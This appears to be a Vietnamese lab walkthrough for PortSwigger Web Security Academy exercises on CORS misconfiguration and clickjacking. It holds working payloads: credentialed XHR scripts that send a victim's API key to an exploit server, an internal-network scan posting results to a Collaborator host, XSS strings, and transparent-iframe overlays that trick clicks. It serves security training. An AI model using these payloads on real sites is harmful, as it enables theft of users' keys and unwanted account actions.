

# Web09

# CORS

### **CORS vulnerability with basic origin reflection**

Nhận thấy website gửi request đến `/accountDetails` để lấy thông tin về account, bao gồm `API key`



Thêm thử request header `Origin: aaaaa`, thấy nó hiện lại lên response header `Access-Control-Allow-Origin: aaaaa`


Như vậy ta có thể gửi XHR request đến `/accountDetails` từ một website khác để lấy thông tin


```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.responseType = "json";
    req.open('get', 'https://0a1a002d033dca87c06974bd005a00fb.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location = 'https://exploit-0a9b00dc0312ca3ec0f674e60116008b.web-security-academy.net/exploit?APIkey' + req.response.apikey;
    };
</script>
```

Copy paste và store vào Exploit server rồi gửi cho victim 


Gửi cho victim để, vào `Access log` để lấy `API key`


Submit để hoàn thành lab

---

### **CORS vulnerability with trusted null origin**

Nhật thấy hầu hết các origin đều không được chấp nhận, ngoại trừ `null`


Dùng `iframe` `sandbox` để gửi một request có header `Origin: null`

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.responseType = 'json';
    req.open('get', 'https://0ae2007203e6838fc0594a3700ca00a5.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location = 'https://exploit-0a9600fd03b88360c00e4a4d013f0089.web-security-academy.net/exploit?APIkey=' + req.response.apikey;
    };
</script>"></iframe>
```

Copy paste và store vào Exploit server rồi gửi cho victim 


Gửi cho victim để, vào `Access log` để lấy `API key`


Submit để hoàn thành lab

---

### **CORS vulnerability with trusted insecure protocols**

Kiểm tra chức năng Check stock, thấy nếu nhập sai `productId` thì tên `productId` đó sẽ được hiển thị → mở đường cho tấn công XSS


Thử gửi request với `productId=<script>alert(1)</script>`, ta thực hiện thành công XSS


Hơn nữa, khi gửi request để lấy API với header Origin là subdomain stock của website, ta nhận được CORS header từ response header


→ ta có thể sử dụng lỗ hổng XSS trên subdomain stock để thực hiện lấy API

Test script để lấy API, nếu thành công thì API sẽ được log vào console

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.responseType = 'json';
    req.open('get', 'https://0aff00590428ed98c0032fb4009c0041.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();
    
    function reqListener() {
        console.log('https://exploit-0a5400460475ed49c0df2f71010b00de.web-security-academy.net/exploit?APIkey=' + req.response.apikey);
    };
</script>
```

URL encode và gửi vào param `productId`, ta được URL như sau

```
https://stock.0aff00590428ed98c0032fb4009c0041.web-security-academy.net/?productId=%3Cscript%3E%0a%20%20%20%20var%20req%20%3d%20new%20XMLHttpRequest()%3b%0a%20%20%20%20req.onload%20%3d%20reqListener%3b%0a%20%20%20%20req.responseType%20%3d%20%27json%27%3b%0a%20%20%20%20req.open(%27get%27%2c%20%27https%3a%2f%2f0aff00590428ed98c0032fb4009c0041.web-security-academy.net%2faccountDetails%27%2c%20true)%3b%0a%20%20%20%20req.withCredentials%20%3d%20true%3b%0a%20%20%20%20req.send()%3b%0a%20%20%20%20%0a%20%20%20%20function%20reqListener()%20{%0a%20%20%20%20%20%20%20%20console.log(%27https%3a%2f%2fexploit-0a5400460475ed49c0df2f71010b00de.web-security-academy.net%2fexploit%3fAPIkey%3d%27%20%2b%20req.response.apikey)%3b%0a%20%20%20%20}%3b%0a%3C%2fscript%3E&storeId=1
```

Vào Exploit server, viết script để victim tự động chuyển hướng đến trang stock bị XSS

```html
<script>
	document.location="https://stock.0aff00590428ed98c0032fb4009c0041.web-security-academy.net/?productId=%3Cscript%3E%0a%20%20%20%20var%20req%20%3d%20new%20XMLHttpRequest()%3b%0a%20%20%20%20req.onload%20%3d%20reqListener%3b%0a%20%20%20%20req.responseType%20%3d%20%27json%27%3b%0a%20%20%20%20req.open(%27get%27%2c%20%27https%3a%2f%2f0aff00590428ed98c0032fb4009c0041.web-security-academy.net%2faccountDetails%27%2c%20true)%3b%0a%20%20%20%20req.withCredentials%20%3d%20true%3b%0a%20%20%20%20req.send()%3b%0a%20%20%20%20%0a%20%20%20%20function%20reqListener()%20{%0a%20%20%20%20%20%20%20%20console.log(%27https%3a%2f%2fexploit-0a5400460475ed49c0df2f71010b00de.web-security-academy.net%2fexploit%3fAPIkey%3d%27%20%2b%20req.response.apikey)%3b%0a%20%20%20%20}%3b%0a%3C%2fscript%3E&storeId=1"
</script>
```


Store và thử View exploit để kiểm tra payload, thấy ta được redirect sang Check stock và API đã được log vào console.


Lặp lại các bước trên, thay `console.log` thành `fetch` để gửi API của victim về server của ta.

Gửi URL cho victim, và Access log để lấy API của vitim và submit để hoàn thành lab


---

### **CORS vulnerability with internal network pivot attack**

Bước đầu ta cần tìm endpoint để thực hiện exploit bằng cách bruteforce địa chỉ IP của mạng nội bộ. Craft một đoạn javascript để khi ấn vào link ta gửi, browser của victim sẽ gửi request đến các IP trong mạng nội bộ và gửi về endpoint Burp Collab của ta

```jsx
<script>
    for (i = 0; i <= 225; i++) {
        fetchFunc("http://192.168.0." + i + ":8080");
    }

    function fetchFunc(url){
        fetch(url)
        .then(response => response.text())
        .then(response => {
            var response = fetch("http://fxg3c0tgvqf2bvsm9l9yc2ozuq0loa.burpcollaborator.net", {
                method: 'POST',
                headers: {
                    'Content-Type': 'text/plain'
                },
                body: url + "\n" + response
            });
        })
    }
</script>
```

Copy paste và store vào Exploit server rồi gửi cho victim


Burb Collab sẽ nhận được 1 request duy nhất từ địa chỉ `192.168.0.35:8080`, các địa chỉ IP khác khả năng trả về response không có CORS header nên phát sinh lỗi.


Copy paste đoạn HTML nhận được vào editor để xem đó là gì, ta nhận thấy đó là trang `/login`

Thử fetch trang `/admin` thì thấy trả về nội dung như sau


→ cần phải login trước

Sang trang `/login`, ta tìm được lỗi XSS với payload

```
/login?username="> <script>alert(1)</script>
```


# Clickjacking

### **Basic clickjacking with CSRF token protection**

Craft đoạn CSS để thẻ iframe nằm trên thẻ div có nội dung là Click me để khi victim bấm Click me sẽ thực chất là bấm và iframe, đồng thời set opacity thấp để victim không nhìn thấy iframe.

Chỉnh thuộc tính `top` và `left` của thẻ div để nó trùng với nút Delete account

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 700px;
        opacity: 0.1;
        z-index: 1;
    }

    div {
        position: absolute;
        top: 500px;
        left: 80px;
    }
</style>
<div>Click me</div>
<iframe src="https://0a0a00d70443b778c0534710006b0058.web-security-academy.net/my-account"></iframe>
```


Copy paste và store vào Exploit server rồi gửi cho victim để hoàn thành lab


---

### **Clickjacking with form input data prefilled from a URL parameter**

Craft đoạn CSS để thẻ iframe nằm trên thẻ div có nội dung là Click me để khi victim bấm Click me sẽ thực chất là bấm và iframe, đồng thời set opacity thấp để victim không nhìn thấy iframe.

Chỉnh thuộc tính `top` và `left` của thẻ div để nó trùng với nút Update email

```jsx
<style>
    iframe {
        position:relative;
        width:700px ;
        height: 500px;
        opacity: 0.1;
        z-index: 1;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
    }
</style>
<div>Click me</div>
<iframe src="https://0ae4007304c44b4fc0db48e000eb007e.web-security-academy.net/my-account?email=a@a.a"></iframe>
```


Copy paste và store vào Exploit server rồi gửi cho victim để hoàn thành lab


---

### **Clickjacking with a frame buster script**

Craft đoạn CSS để thẻ iframe nằm trên thẻ div có nội dung là Click me để khi victim bấm Click me sẽ thực chất là bấm và iframe, đồng thời set opacity thấp để victim không nhìn thấy iframe.

```jsx
<style>
    iframe {
        position:relative;
        width:700px ;
        height: 500px;
        opacity: 0.1;
        z-index: 1;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
    }
</style>
<div>Click me</div>
<iframe src="https://0ae4007304c44b4fc0db48e000eb007e.web-security-academy.net/my-account?email=a@a.a"></iframe>
```

Nhận thấy a không thể frame website như bình thường


Tuy nhiên khi dùng thuộc tính `sandbox="allow-forms"` của thẻ iframe, ta lại có thể frame web `/my-account`

Chỉnh thuộc tính `top` và `left` của thẻ div để nó trùng với nút Update email

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.1;
        z-index: 1;
    }

    div {
        position: absolute;
        top: 450px;
        left: 80px;
    }
</style>
<div>Click me</div>
<iframe src="https://0a0a00d70443b778c0534710006b0058.web-security-academy.net/my-account?email=a@a.a" sandbox="allow-forms"></iframe>
```


Copy paste và store vào Exploit server rồi gửi cho victim để hoàn thành lab


---

### **Exploiting clickjacking vulnerability to trigger DOM-based XSS**

Test qua chức năng của website, nhận thấy sau khi bấm submit, tên ta sẽ được reflect lại mà không thông qua xử lí HTML encode → ta có thể chèn thẻ image vào phần tên để thực hiện XSS

```html

```


Craft đoạn CSS để thẻ iframe nằm trên thẻ div có nội dung là Click me để khi victim bấm Click me sẽ thực chất là bấm và iframe, đồng thời set opacity thấp để victim không nhìn thấy iframe.

Chỉnh thuộc tính `top` và `left` của thẻ div để nó trùng với nút Submit feedback

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 900px;
        opacity: 0.1;
        z-index: 1;
    }

    div {
        position: absolute;
        top: 790;
        left: 80px;
    }
</style>
<div>Click me</div>
<iframe src="https://0a8c00ee03e5a259c108378b00e00029.web-security-academy.net/feedback?name=%3Cimg%20src=a%20onerror=print()%20/%3E&email=a@a.a&subject=a&message=a"></iframe>
```


Copy paste và store vào Exploit server rồi gửi cho victim để hoàn thành lab


---

### **Multistep clickjacking**

Craft đoạn CSS để thẻ iframe nằm trên thẻ div có nội dung là Click me để khi victim bấm Click me sẽ thực chất là bấm và iframe, đồng thời set opacity thấp để victim không nhìn thấy iframe.

Chỉnh thuộc tính `top` và `left` của hai thẻ div để nó trùng với nút Delete account và Yes

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 700px;
        opacity: 0.1;
        z-index: 1;
    }

    #first {
        position: absolute;
        top: 500px;
        left: 80px;
    }

    #next{
        position: absolute;
        top: 300px;
        left: 200px;
    }
</style>
<div id="fist">Click me fist</div>
<div id="next">Click me next</div>
<iframe src="https://0aac00f50329a2d5c1553be300680069.web-security-academy.net/my-account"></iframe>
```


Copy paste và store vào Exploit server rồi gửi cho victim để hoàn thành lab

